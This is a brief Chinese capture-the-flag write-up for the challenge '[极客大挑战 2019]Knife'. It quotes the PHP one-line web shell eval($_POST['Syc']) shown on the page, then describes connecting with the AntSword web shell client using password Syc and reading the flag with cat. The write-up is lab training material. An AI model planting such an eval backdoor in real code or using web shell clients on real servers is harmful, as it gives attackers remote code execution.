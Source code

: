 # [极客大挑战 2019]Knife

页面提示：
```php
eval($_POST["Syc"]);
```

直接使用蚁剑连接，密码Syc

在根目录下找到flag

直接`cat flag`
